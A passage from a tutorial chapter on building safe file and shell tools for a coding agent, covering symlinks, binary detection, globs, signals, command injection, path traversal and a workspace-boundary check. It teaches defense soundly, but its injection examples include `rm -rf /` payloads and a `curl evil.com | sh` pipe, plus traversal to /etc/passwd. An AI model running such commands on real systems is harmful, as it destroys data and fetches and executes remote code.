





# Chapter 3: Coding Tools — How an Agent Safely Reads and Writes Code

## 1. Chapter positioning

- Module: 03 Coding Tools
- Study time: 10–12 hours (two weeks of material, including the Section 2 prerequisites)
- Difficulty: medium-high — Section 2 teaches seven system/security fundamentals from scratch (symlinks, NUL bytes, glob, Unix signals, command injection, path traversal, regex quantifiers), and every defense line in this chapter is built on them
- Prerequisite chapter: Chapter 2 (the ToolDefinition protocol and the Registry)
- Corresponding OpenCode commit: `70a24697ea0028e19f22712fd63059538cb4bee7`
- Corresponding stage in this project: `v0.5-code-tools`

## 2. Prerequisites

> This chapter's tools touch the user's real filesystem and shell for the first time: reading files, modifying code, running commands — a mistake is a real incident. That is why Section 2.2 teaches the seven security and system fundamentals **from scratch** — symlinks and realpath (the foundation of the boundary defense), NUL bytes and the binary verdict (read's defense), glob syntax (the input language of discovery tools), Unix signals and kill (the shell's timeout mechanism), bash -c and command injection (the shell's inherent risk), path traversal attacks (the first class of attack surface), and regex quantifiers (grep's core syntax). They are not just prerequisites for this chapter; they are also the security vocabulary underpinning the permission layer in Chapter 6.

### 2.1 Glossary for this chapter

| Term | One-sentence plain explanation | Where it is used in this chapter |
|---|---|---|
| Symlink | A "shortcut" file pointing at another path | 2.2.1; 5.1 boundary defense |
| `realpath` / real path | The real on-disk location after expanding all symlinks | 2.2.1; 5.1 |
| Lexical path | The path as literally written (may contain `..` and links, unresolved) | 2.2.1; 5.1 |
| NUL byte (`\0`) | Byte value 0; never appears in UTF-8 text, present in almost every binary file header | 2.2.2; 5.2; 5.3 |
| Binary file | A non-text-encoded file: images, databases, executables | 5.2 read defense |
| Glob pattern | A wildcard language describing "what a filename looks like" with `*`/`**`/`?` | 2.2.3; 5.3 |
| ripgrep (rg) | An extremely fast CLI content-search tool that respects .gitignore | 5.3 tool comparison |
| Regex quantifier | Controls how many times the preceding unit repeats: `+` (≥1), `*` (≥0), `{n,m}` | 2.2.7; 5.3 grep |
| Unix signal | A numbered notification — the OS "tapping a process on the shoulder" | 2.2.4; 5.5 timeouts |
| `kill` / SIGKILL(9) | Command that sends a signal / signal 9: "vanish now, cannot be refused" | 2.2.4; 5.5 |
| `bash -c` | Makes bash parse and execute a whole string as a shell command | 2.2.5; 5.5 |
| Command injection (shell injection) | Attack where shell syntax characters inside an untrusted string change the command's structure | 2.2.5; 5.5 |
| Path traversal | Stuffing `..` into a path argument to read/write files outside the target directory | 2.2.6; 5.1 |
| ANSI escape sequences / TERM | Control characters that colorize terminals / env var telling a program the "terminal model" | 5.5 `TERM: "dumb"` |
| Unified diff | The output format of `git diff`: `-` lines removed, `+` lines added | 5.4 |
| ENOENT | Filesystem error code "Error NO ENTry" — the path does not exist | 5.1 realpath folding |
| File lock (flock) | Mutual-exclusion mechanism that makes multiple writers queue up | 5.6 three concurrency options |
| Atomic replacement (rename) | Write a temp file, then rename: readers see either the complete old or the complete new | 5.6 three concurrency options |
| `mkdtemp` | Creates a unique temp directory with a random suffix | 5.6 test isolation |
| LSP (Language Server Protocol) | Communication standard between editors and language analysis services; a long-lived process | 5.7 adapters |
| cwd (working directory) | A process's "foothold" for resolving relative paths | 5.5 where the shell executes |
| token / context window | The model's unit of text / the token limit it can "see" at once (covered in Chapter 1, 2.2.1) | 5.8 three-layer budget |

### 2.2 Foundations

#### 2.2.1 Symlinks and realpath: name vs. real identity

**Plain-language definition**: A **symlink** is a "shortcut" file — its content is the address of another path; when you access the link, the OS automatically jumps to the target. `ln -s target linkname` creates one.

**Lexical path vs. real path**: The lexical path is the path "as literally written" — `/ws/innocent.txt` may be a link, and `a/../b` may hide a step back, but none of that is visible on the surface; the **real path** (realpath) is where the file actually lives on disk after expanding all symlinks and simplifying `.`/`..`.

```bash
ln -s /home/other/secret /ws/innocent.txt  # plant a "shortcut" inside the workspace
cat /ws/innocent.txt                        # what is actually read is /home/other/secret
realpath /ws/innocent.txt                   # -> /home/other/secret (the real identity revealed)
ls -l /ws                                   # lrwxrwxrwx ... innocent.txt -> /home/other/secret
```

(In `ls -l`, a permission string starting with `l` and a name followed by `-> target` marks a symlink — check this first when a file "seems weird".)

You can reproduce this attack with zero risk: create a link to a system file under `/tmp` and see the split between "name" and "real identity" with your own eyes.

```bash
mkdir -p /tmp/ws-demo && ln -s /etc/hostname /tmp/ws-demo/innocent.txt
realpath /tmp/ws-demo/innocent.txt
ls -l /tmp/ws-demo/innocent.txt
```

```text
Output (excerpt):
/etc/hostname
lrwxrwxrwx … /tmp/ws-demo/innocent.txt -> /etc/hostname
```

(The middle of the `ls -l` line omits owner, size, timestamp and other machine-specific fields. The real identity of the name `innocent.txt` is `/etc/hostname` — completely invisible in the lexical path; only `realpath` can expose it.)

**How this chapter uses it**: If the boundary check only looks at the lexical path, `/ws/innocent.txt` appears to be inside the workspace and gets allowed — yet it can read any file outside the workspace. That is why the gatekeeper function in 5.1 adds a realpath check for paths that exist.



*Figure 3-P1: The symlink attack — `innocent.txt` in the workspace is a symlink pointing at `/home/other/secret.txt`; the lexical check is fooled into allowing it, while realpath resolves the real path and blocks the out-of-bounds access. The last of the three defenses must therefore resolve the real path.*

#### 2.2.2 NUL bytes and the binary verdict

**Plain-language definition**: `\0` (NUL, byte value 0) is the "null character" of the ASCII table. **No valid UTF-8 text character ever produces it**, while images, SQLite databases, executables and other **binary files** almost always start with one. Hence a cheap and accurate verdict: "if `\0` appears in the content → treat it as binary". In code it costs a single `includes`:

```ts
const text = await Bun.file("logo.png").text()
text.includes("\0") // true — this is not UTF-8 text; do not treat it as text
```

Why not decide by extension (reject `.png`, read `.ts`)? Because an extension is only a "convention": a renamed executable or an extension-less database file defeats it, whereas "does the content contain `\0`" looks at facts.

**How this chapter uses it**: read's binary defense and grep's skip logic (5.2/5.3) both rely on this single verdict. Reading a binary as text yields mojibake — pure token burn (Chapter 1, 2.2.1), zero information.

#### 2.2.3 Glob syntax: `*`, `**`, `?`

**Plain-language definition**: glob is the shell-era mini language of "filename wildcards"; three symbols cover ninety percent of cases:

- `*`: matches any characters within a **single level** (no `/`) — `src/*.ts` hits `src/a.ts` but not `src/sub/b.ts`;
- `**`: matches directories at **any depth** (only works when it occupies a whole path segment; `s**c` does not count) — `src/**/*.ts` hits both levels;
- `?`: exactly one arbitrary character — `file?.ts` hits `file1.ts` but not `file10.ts`.

```bash
ls src/*.ts    # .ts files at the top level of src
ls src/**/*.ts # .ts files at every level under src
```

**How this chapter uses it**: the glob tool's `pattern` parameter (5.3); the model will generate patterns like `**/*.ts` and `src/**/test_*.py`.

#### 2.2.4 Unix signals and kill: how the OS taps a process on the shoulder

**Plain-language definition**: A **signal** is the OS's standard way of notifying a process — a numbered little note. Some signals can be caught and handled gracefully; some cannot. The two most used:

- **SIGTERM (15)**: "please exit" — the program may finish up (save, close files) and then exit;
- **SIGKILL (9)**: "vanish now" — the program **cannot catch it and cannot refuse**; the OS reclaims the process directly. The command-line `kill -9 pid` sends exactly this, which is why "kill -9 a process" became synonymous with "forcible execution".

Execute a background sleep yourself in a terminal to feel the difference between the two signals:

```bash
sleep 30 &     # start a sleep in the background
kill -9 %1     # execute it immediately with signal 9
```

An observable piece of evidence along the way: a process killed by SIGKILL leaves `$?` at 137 in the shell (= 128 + 9; "128 + signal number" is the encoding for "died by signal") — think of this first when debugging "why did the process disappear".

**How this chapter uses it**: after the shell tool times out it calls `proc.kill()` to end the child process (5.5). Note that even after kill you must still wait on `proc.exited` to drain the residual output from the pipes — even an execution needs an autopsy.

#### 2.2.5 bash -c and command injection: why raw strings in the shell are dangerous

**Plain-language definition**: `bash -c "command string"` makes bash **parse** a whole string as a shell command and execute it — shell syntax characters like `|`, `;`, `$()` and backticks all get interpreted.

The danger is exactly here: **syntax characters inside the string change the command's structure**. If you build commands by concatenation (`ls ${dir}`) and `dir` comes from untrusted input:

```bash
dir='.; rm -rf /'          # malicious input: what follows the semicolon is another command
bash -c "ls ${dir}"        # actually executes: ls . — then rm -rf / !
```

Injection takes more forms than the semicolon: `$(rm -rf /)` is command substitution (run what is inside the parentheses, then splice the output back in), `` `rm -rf /` `` is its backtick spelling, and `| curl evil.com | sh` is a pipe relay — every character the shell gives special meaning is an injection entry point.

There are two lines of defense: (1) **never concatenate** — pass values as parameters or escape strictly, so the untrusted string always remains "data"; (2) **constrain the execution environment** — still hand the command to bash -c, but restrict cwd, environment variables and timeout, with approval layered outside. The peculiarity of the Agent setting is that "the command itself is model-generated", so parameterization is impossible and only the second path remains (the allowlist + timeout of 5.5, plus the permission approval of Chapter 6).

#### 2.2.6 Path traversal attacks: `..` as a jailbreak

**Plain-language definition**: **Path traversal** means an attacker stuffs `..` (parent directory) into a path argument so the program reads/writes files it should never touch.

```ts
join("/ws", "src/../../etc/passwd") // perfectly valid as a string; the joined result is a path into /etc
```

**How this chapter uses it**: this is the first class of attack surface against the workspace boundary (5.1). Defense: **resolve** the path into an absolute path, then relativize it against the workspace — if the result starts with `..` the target lies outside the workspace: reject; pair it with realpath to guard against symlink "side leaks" (2.2.1).

#### 2.2.7 Regex, continued: quantifiers

Chapter 0 (2.2.5) covered four features: alternation, the optional `?`, anchors, and flags. The example patterns for this chapter's grep tool also need **quantifiers** (controlling how many times the preceding unit repeats) and two shorthand classes:

- `+`: repeat **1 or more times** — `\d+` matches `123`, not the empty string;
- `*`: repeat **0 or more times** — `ab*c` matches `ac`, `abc`, `abbc`;
- `{n,m}`: repeat **n to m times** — `\d{2,4}` matches `12` through `1234`;
- shorthand classes: `\d` (digit), `\w` (alphanumeric plus underscore), `\s` (whitespace).

Combine a shorthand class and a quantifier into one practical pattern; a single line of code verifies what it means:

```ts
/function\s+\w+/.test("function greet") // true: function + at least one whitespace + one word
```

**How this chapter uses it**: grep's `pattern` parameter goes straight into `new RegExp` (5.3); the user/model may supply an invalid regex, and the tool must convert the exception into a structured error instead of crashing.

### 2.3 Recap of the previous module

- Chapter 2's core verdict, "**errors are results too**": every failure path returns a `ToolResult` with `ok:false + error`, and every "rejection" in this chapter's tools returns that way;
- The **double-insurance timeout** (abort at deadline → 20 ms grace → hard fallback) covers all of this chapter's tools, and shell adds its own 30s kill layer (5.5) — each layer guards one end;
- The `ToolResult` shape (`ok / content / error / meta`) is unchanged; this chapter puts file contents, matching lines, and command output into `content`;
- Tokens and the context window are the scarce resources from Chapter 1 (2.2.1) — this chapter's entire "budget / truncation / limit" design (5.8) exists to save them and will not be re-explained.

---

## 3. Learning objectives

- Understand: why the workspace boundary is the first line of defense for every file tool; the "fail rather than guess" editing semantics.
- Be able to implement: read (line numbers / windowing / binary and large-file defenses), glob, grep (JS version, understanding the trade-off against ripgrep), write, edit (unique-match constraint), apply_patch (two-phase atomic patch), shell (timeout / env allowlist), test (tail-only output).
- Be able to test: every tool is tested against an isolated temp workspace, covering failure paths such as out-of-bounds, missing targets, multiple matches, timeouts, and injection.
- Be able to explain: each tool's risk tier (low/medium/high) and its future default policy in the permission layer.

## 4. Problem statement

What an Agent receives is "a natural-language task plus model-generated parameters", not trusted input. This chapter's tools operate directly on the real filesystem and shell, so a single mistake is a real incident: writing outside the workspace, overwriting user files, executing dangerous commands, drowning the context in oversized output. The corresponding OpenCode implementation lives in files such as `packages/opencode/src/tool/read.ts` plus the path boundary in `packages/core/src/filesystem.ts`.

Three design red lines (shared by every tool in this chapter):

1. **Out of bounds means rejected**: every path first passes `resolveWorkspacePath` (lexical boundary + absolute path + symlink, a triple check); failure returns a structured error.
2. **Fail rather than guess**: edit/apply_patch fail on zero or multiple matches, never "try fuzzy matching and see".
3. **Output must be budgetable**: read windows, glob/grep caps, test keeps only the tail, and the Registry's truncation backstops everything.

## 5. Core concepts

Section 8.4 of the design blueprint lists 8 must-teach knowledge points for this chapter. First the mapping table of "knowledge point ↔ source file ↔ test file" (paths relative to `opencode-lab/`), then each point in turn:

| # | Knowledge point | Main source | Tests |
|---|---|---|---|
| 1 | File path resolution and the workspace boundary | `src/core/workspace.ts` | `test/core/workspace.test.ts` |
| 2 | UTF-8 text, binary files, and large-file handling | `src/tools/read.ts` | `test/tools/browse.test.ts` |
| 3 | Glob, ripgrep, regex, and result paging | `src/tools/glob.ts`, `src/tools/grep.ts` | `test/tools/browse.test.ts` |
| 4 | Exact editing, unified diff, and patch application | `src/tools/edit.ts`, `src/tools/apply-patch.ts` | `test/tools/modify.test.ts` |
| 5 | Shell, subprocesses, stdout/stderr, exit codes, and timeouts | `src/tools/shell.ts` | `test/tools/shell.test.ts` |
| 6 | Temp files, concurrent writes, and file locks | `src/tools/apply-patch.ts`, `test/helpers/workspace.ts` | `test/tools/modify.test.ts`, `test/core/workspace.test.ts` |
| 7 | Toolifying LSP, formatters, and the test runner | `src/tools/test-runner.ts` | `test/tools/shell.test.ts` |
| 8 | Tool output compaction and context cost control | `src/tools/read.ts`, `src/tools/glob.ts`, `src/tools/grep.ts`, `src/tools/test-runner.ts` | `test/tools/browse.test.ts`, `test/tools/shell.test.ts` |

### 5.1 File path resolution and the workspace boundary

**Concept**

An Agent's file tools run on the user's real machine, and the parameters are model-generated strings — possibly a `../` escape (the path traversal of 2.2.6), an absolute path pointing at a system file, even a crafted symlink (2.2.1). The "workspace boundary" is the safety mechanism that confines the blast radius to one directory: before any file operation, the model-supplied path is **resolved into an absolute path inside the workspace**, and resolution failure means rejection. Three classes of attack surface must be handled separately: the lexical `..` escape (`src/../../etc/passwd`), the absolute path pointing straight outside (`/etc/passwd`), and the **symlink** (a link named `innocent.txt` inside the workspace pointing at `/home/other/secret` — lexical checks cannot see it at all; you must look at the real path).

A fourth case is easy to kill by mistake: **when writing a new file, the path does not exist yet**, so `realpath` fails — that is not an attack but the daily bread of write/apply_patch, and it must be distinguished from "exists but out of bounds" (expanded below).

**How this project implements it**

The gatekeeper is `src/core/workspace.ts`; the first line of every file tool calls it:

```ts
export async function resolveWorkspacePath(workspace: string, inputPath: string): Promise<PathResolution> {
  if (inputPath.trim() === "") return { ok: false, error: "路径不能为空" }

  const workspaceReal = await realPathOrNull(workspace)
  if (workspaceReal === null) return { ok: false, error: `工作区不存在: ${workspace}` }

  const abs = resolve(workspace, inputPath)
  if (escapes(workspaceReal, abs)) {
    return { ok: false, error: `路径越界: ${inputPath}（只允许工作区内路径，且不允许 .. 逃逸）` }
  }

  // Symlink: the target's real path must still be inside the workspace (guards links inside the workspace pointing outside)
  const absReal = await realPathOrNull(abs)
  if (absReal !== null && escapes(workspaceReal, absReal)) {
    return { ok: false, error: `路径越界: ${inputPath}（符号链接指向工作区外）` }
  }
  return { ok: true, path: abs }
}
```

Both checks share one predicate: if the `relative` result starts with `..` or is itself an absolute path, the path is out of bounds:

```ts
function escapes(workspaceReal: string, absPath: string) {
  const rel = relative(workspaceReal, absPath)
  return rel.startsWith("..") || isAbsolute(rel)
}
```

The gatekeeper facing a real attack — `/tmp/ws-demo` contains an `innocent.txt` pointing at `/etc/hostname` (planted in 2.2.1); feed it straight in (run from the `opencode-lab/` directory):

```ts
import { resolveWorkspacePath } from "./src/core/workspace"

// in-workspace symlink pointing outside: rejected
console.log(JSON.stringify(await resolveWorkspacePath("/tmp/ws-demo", "innocent.txt")))
// a new, nonexistent file: allowed (write creating new files, the daily case)
console.log(JSON.stringify(await resolveWorkspacePath("/tmp/ws-demo", "notes.txt")))
```

```text
Output (excerpt):
{"ok":false,"error":"路径越界: innocent.txt（符号链接指向工作区外）"}
{"ok":true,"path":"/tmp/ws-demo/notes.txt"}
```

The first line is the third defense at work: lexically `innocent.txt` sits quietly inside `/tmp/ws-demo`, but once `realpath` expands it the true form appears and it is rejected on the spot. The second line is the "fourth case": the path does not exist, `absReal` is `null`, and it is allowed as usual — two situations receive utterly different yet each-correct treatment.

**A line-by-line workout of the path API** — run the attack input through by hand. Let the workspace be `/ws` and the model supply `src/../../etc/passwd`:

Step 1, `resolve("/ws", "src/../../etc/passwd")`: `resolve` does two things — appends the relative path after the base, then simplifies `.`/`..` **purely as strings** (never asking the disk):

```text
Join:   /ws + src/../../etc/passwd  ->  /ws/src/../../etc/passwd
Reduce: src is canceled by the first ..; ws by the second  ->  /etc/passwd
```

Step 2, `relative("/ws", "/etc/passwd")`: computes "how to walk from the former to the latter" — the common ancestor of `/ws` and `/etc` is the root `/`, so from `/ws` you only go up one level (a single `..`) and then enter `etc/passwd`:

```text
Output of relative: ../etc/passwd
```

Step 3, the verdict: `rel` starts with `..` → **out of bounds, reject**.

Now contrast with normal input (workspace `/ws`, input `src/main.ts`): `resolve` outputs `/ws/src/main.ts`; `relative("/ws", "/ws/src/main.ts")` outputs `src/main.ts` — it does not start with `..` and is not an absolute path → allow, returning `{ ok: true, path: "/ws/src/main.ts" }`. Attack and normal input part ways at step 2, so the step 3 verdict needs only two conditions.

Verify the hand calculation by really running it with `node:path` (executed directly via `bun -e`):

```bash
bun -e 'import { resolve, relative } from "node:path"
const attack = resolve("/ws", "src/../../etc/passwd")
console.log(attack, "|", relative("/ws", attack))
const normal = resolve("/ws", "src/main.ts")
console.log(normal, "|", relative("/ws", normal))'
```

```text
Output (excerpt):
/etc/passwd | ../etc/passwd
/ws/src/main.ts | src/main.ts
```

(In the first line the `relative` output starts with `..` → `escapes` returns true; the second line is a "downward" relative path inside the workspace → allowed. The real output matches the hand calculation above.)

Why is "starts with `..` means out of bounds" the right verdict? Because a `relative` output starting with `..` means the target lies **outside** the base (you must climb up to reach it); any path inside the workspace, relative to the workspace, can only look like `a.ts` or `src/main.ts` — a downward form. The `isAbsolute(rel)` branch guards a different corner: when the two paths are not on the same directory tree (e.g. the `C:` and `D:` "drive letters" on Windows — paths on different drives cannot be relativized), `relative` returns the second absolute path as-is — an absolute path returned as-is of course also means "not inside the workspace".

**The fourth case, expanded**: `realPathOrNull` folds "does not exist" into `null` instead of an exception (ENOENT — the filesystem error code "Error NO ENTry", i.e. "no such file/directory"; where the exit code of Chapter 0, Section 5.4 is the process-level signal, errno is the syscall-level signal). Hence the second, symlink check is written `absReal !== null && escapes(...)`: for a nonexistent path (a new file about to be written) `absReal` is `null` and it flows naturally onward; only links that exist and escape are rejected. The two are never conflated — if "realpath threw" were treated as "out of bounds", the Agent could never create a new file. The workspace itself is also resolved to its real path first (`workspaceReal`), avoiding baseline drift such as `/tmp` being a symlink on macOS. The tests in `test/core/workspace.test.ts` cover all 10 cases, including a real symlink attack built with the `createOutsideDir + linkInside` fixture.



*Figure 3-1: The three defenses after resolve — the lexical `..` escape, the out-of-bounds absolute path, and symlink realpath; nonexistent paths are allowed (writing new files).*

**Common pitfalls**

- **Symptom**: prefix checks with `path.startsWith(workspace)`. **Cause**: string intuition. **Fix**: `/ws` lets `/ws-evil` through; you must `resolve` first and then decide with `relative` (walkthrough above).
- **Symptom**: lexical checks only, no symlink check. **Cause**: not knowing that symlinks bypass the lexical view (the 2.2.1 demo). **Fix**: add a `realpath` check for existing targets (test: "symlink pointing outside the workspace is rejected").
- **Symptom**: rejecting the path whenever `realpath` throws. **Cause**: not distinguishing ENOENT. **Fix**: nonexistent → `null` → allow; otherwise new files can never be created (test: "nonexistent new file path is allowed").

**Self-check questions**

1. What does each of `escapes`' two conditions catch?
   > Key points: `rel` starting with `..` catches escapes to parent/external; `isAbsolute(rel)` catches relativization failures such as cross-drive paths.
2. Why is `resolveWorkspacePath` async?
   > Key points: `realpath`/`stat` are IO; the boundary check must look at the filesystem's real state, not just compute strings.
3. Which attack does each of the three checks defend against?
   > Key points: lexical `..`, external absolute paths, and in-workspace symlinks pointing outside; miss any one and a real bypass exists.

### 5.2 UTF-8 text, binary files, and large-file handling

> 📊 Figure: For the problem of UTF-8 multi-byte characters split mid-character by network chunks, see the byte-boundary analysis in Figure 1-P3 of Section 2.2 (Chapter 1).

**Concept**

File tools default to "the file is text", but the disk also holds images, sqlite databases, and archives. Reading a binary as text has two consequences: a wall of mojibake pollutes the model's context (mojibake carries no information, pure token burn — Chapter 1, 2.2.1), and some decoders throw exceptions. So read needs a **binary defense** — and the verdict is exactly the NUL-byte heuristic of 2.2.2. The other budget problem is **large files**: a 50MB log file is enough to blow the context even read once — the right posture is to refuse the full read and guide the model to the two-step "grep to locate + offset/limit segments" approach. This embodies a meta-principle of the chapter: **a tool's error message is a navigation instruction**, telling the model "what to do next", not just "you are wrong".

**How this project implements it**

`src/tools/read.ts` runs three defenses before reading content (existence → size → binary), all structured rejections:

```ts
const MAX_FILE_BYTES = 2 * 1024 * 1024
const DEFAULT_LIMIT = 200
```

```ts
    const file = Bun.file(resolved.path)
    if (!(await file.exists())) return fail(`文件不存在: ${input.path}`)
    if (file.size > MAX_FILE_BYTES) {
      return fail(`文件过大（${file.size} 字节，上限 ${MAX_FILE_BYTES}）。请用 grep 定位后再按 offset/limit 读取片段`)
    }
    const content = await file.text()
    if (content.includes("\0")) return fail(`文件是二进制格式，无法按文本读取: ${input.path}`)
```

Two implementation details: first, `Bun.file`'s `size` is metadata — **check the size before reading content**, so files over 2MB never enter memory; second, the binary verdict uses the "content contains a NUL byte (`\0`)" heuristic (2.2.2 covered why it is cheap and accurate) — a vanishingly low false-positive rate and a single `includes` to implement. Note the division of labor in the error messages: over-size guides the model to grep, while binary states plainly "cannot be read as text", so the model does not repeatedly bang into the same wall.

What the happy path looks like after the defenses — put a 3-line `notes.txt` in a temp workspace and read it once (run from the `opencode-lab/` directory):

```ts
import { createToolRegistry } from "./src/tools/registry"
import { readTool } from "./src/tools/read"

const registry = createToolRegistry()
registry.register(readTool)
const r = await registry.call("read", { path: "notes.txt" }, { workspace: "/tmp/ws-read-demo" })
console.log(r.content.text)
```

```text
Output (excerpt):
    1| 第一行：项目说明
    2| 第二行：安装方法 bun install
    3| 第三行：运行命令 bun start
```

(Line numbers are right-aligned in 5 columns followed by `| ` — the ripgrep-style line-number format. The model has seen countless such lines in its training data and naturally knows how to cite "line 2".)

**Common pitfalls**

- **Symptom**: deciding binary by extension (reject `.bin`, read `.ts`). **Cause**: treating convention as fact. **Fix**: extensions are untrustworthy; use the NUL-byte heuristic on the content.
- **Symptom**: `text()` into memory first, then checking the length. **Cause**: not realizing metadata is available. **Fix**: `file.size` costs no IO read; reject oversized files outright.
- **Symptom**: a rejection message that only says "file too large". **Cause**: treating the error as an endpoint. **Fix**: attach the alternative route (grep to locate + offset/limit) — the error message is navigation.

**Self-check questions**

1. Why the NUL byte as the binary verdict?
   > Key points: UTF-8 text never contains `\0`; binary formats (ELF, PNG, sqlite, ...) almost always start with it; a single `includes` decides (2.2.2).
2. After the 2MB cap blocks a file, what is the model's standard workflow?
   > Key points: grep locates line numbers by content → read takes only the relevant segment with offset/limit — two tools relaying, not one tool doing everything.
3. What is `read`'s default window in lines? And the cap of the `limit` parameter?
   > Key points: 200 lines by default; `clampInt(input.limit, DEFAULT_LIMIT, 1, 1000)` clamps the cap to 1000 lines.

### 5.3 Glob, ripgrep, regex, and result paging

**Concept**

